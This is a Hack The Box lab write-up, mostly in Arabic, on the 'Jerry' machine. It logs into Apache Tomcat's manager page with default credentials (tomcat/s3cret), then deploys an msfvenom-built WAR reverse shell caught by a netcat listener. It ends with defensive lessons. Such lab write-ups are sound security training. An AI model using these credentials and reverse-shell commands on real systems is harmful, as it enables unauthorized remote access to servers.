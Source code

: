 ```yaml
---

title: "HTB Jerry Lab - Arabic Hack The Box Report"
date: 2025-07-28
author: <author_id>
layout: post
categories: Hack_The_Box
tags: [HTB_Repo, Web, Bug_Bounty, File_Upload_Attack ,web_pentest]
direction: rtl
image:
  path: /images/Labs/jerry/1.png
  alt: 
description: 
---
```


# 1️⃣ HTB Jerry Lab - Arabic Hack The Box Report

---
## 📍 Basic Information
- *Category:* Web
- *Difficulty:* Easy
- *HTB Link:* [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- *Date Completed:* 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- *IP:* 10.10.10.95
- *Ports:* 8080 (HTTP)
- *Service:* Apache Tomcat
- *Technology Identified:* Apache Tomcat
- *OS Guessing:* Windows

### 📄 Files / Endpoints Discovered
- /docs
- /manager/html
- /examples

### 🧪 Tools Used
- `nmap`, `ffuf`, `msfvenom` 

----

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
اثناء فحص ال Directories وجدت صفحة تسجيل دخول manager/html وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.
</p>
![[Pasted image 20250728212622.png]]
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
لاحظت بصفحة ال manager وجود مكان لرفع ملف Web Application Resource (WAR) وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات WAR وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ Remote Code Execution.
</p>

---

## 🚀 3. Exploitation

### 🔧 Payload Used
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام msvenom : 
</p>

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

وطبعاً لازم شغل Listener عندي باستخدام Netcat:
</p>

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:
</p>

![[2.webp]]

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

1. افتح 8080:[Your_IP] وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى /manager/html
    - username: tomcat
        
    - password: s3cret
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    
</p>

### 🖼 Screenshot 

![[3.webp]]

![[4.webp]]

---

## 📊 5. Impact & Risk

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- *OWASP Category:* A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- *CVSS Score:* 9.0 (Critical)
    
- *Impact:*  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال Administrator
    
</p>


---

## 🗒 7. Lessons Learned

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- ضرورة تعطيل واجهات الإدارة (manager/html) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.

</p>    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## *tags:*

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack ,#web_pentest